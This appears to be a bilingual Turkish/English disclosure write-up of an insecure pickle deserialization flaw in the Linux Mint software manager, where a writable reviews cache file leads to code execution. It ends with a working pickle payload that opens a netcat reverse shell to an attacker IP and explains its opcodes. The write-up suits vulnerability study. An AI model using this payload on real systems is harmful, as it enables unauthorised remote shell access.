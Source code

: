 [TR] Linux mint yazılım yöneticisi (v 7.9.5/9) yanlış yapılandırmadan dolayı obje enjeksiyonu ve keyfi kod çalıştırmamıza neden olmaktadır.

[EN] Linux mint software manager (v 7.9.5/9) causes us to execute object injection and arbitrary code due to incorrect configuration


	mintinsall

[TR] Mint yazılım yöneticisini çalıştırdıgımız da yeni yorum olup olmadıgını kontrol ediyor eger yeni yorum varsa  [new-reviews.list](https://community.linuxmint.com/data/) adresinden indirip dosyaya yazıyor.

[EN] If there is a new comment [new-reviews.list](https://community.linuxmint.com/data/) download from and write to file.

![](imgs/20190926-164424.png)

	code mintinstall.py
	
[TR] Yazılım yöneticisini ilk başladıgında , reviews modülünden ReviewCache() sınıfını çağırıyor.

[EN] When the software manager first starts, it calls the ReviewCache() class from the reviews module.
 
 ![](imgs/20190926-170607.png)
 
# Verileri Nasıl İşliyor?
# How Does It Process Data?

	code reviews.py
	
[TR] ReviewCache sınıfı başladıgında(__init__)  _load_cache() fonksiyonunu çagırıyor.

[EN] When the ReviewCache class starts (__init__) it calls _load_cache()

![](imgs/20190926-171334.png)

[TR] Load cache fonksiyonu REVIEWS_CACHE degişkeninde olan dosyayı okuyup pickle modülü yardımıyla dosyanın içinde ki datayı unserialize ediyor ve bazı değerleri hafıza da tutuyor.

[EN] The Load cache function reads the file in the REVIEWS_CACHE variable and unserializes the data in the file with the help of the pickle module and holds some values in memory.


![](imgs/20190926-171938.png)
![](imgs/20190926-165833.png)
![](imgs/20190926-165855.png)

[TR] Dosyayı kontrol ettigimde yazma iznim oldugu görünüyor.

[EN] When I check the file, it looks like I'm allowed to write.

 ![](imgs/20190926-170651.png)

[TR] [Pickle](https://docs.python.org/3.6/library/pickle.html) modülü yardımıyla serialize/unserialize işlemleri gerçekleştirebildigimizden, reduce metodu kullanarak modül dahil edip keyfi kod yürütebiliriz.

[EN] [Pickle](https://docs.python.org/3.6/library/pickle.html) since we can perform serialize/unserialize operations with the module, we can include the module and execute arbitrary code using the reduce method.

![](imgs/20190927-113447.png)

[TR] Bu durumda eğer dosya unserialize edilmeye çalışılırsa zararlı kodumuz çalışacaktır.

[EN] If you attempt to unserialize the file, our malicious code will work.

	cos 
	system 
	(S'nc -e /bin/sh 192.168.2.138 4545' 
	tR.
	>>modül adı c{os}
	>> fonksiyon
	( >> işaretleyici nesnesi 
	S >> tırnak sonuna kadar okuyup stack'e at
	tR. >> stackte olanları çagır ve sonucu stacke yerleştir.
	
![](imgs/20190927-131940.png)



![alt-text](imgs/exploit.gif)
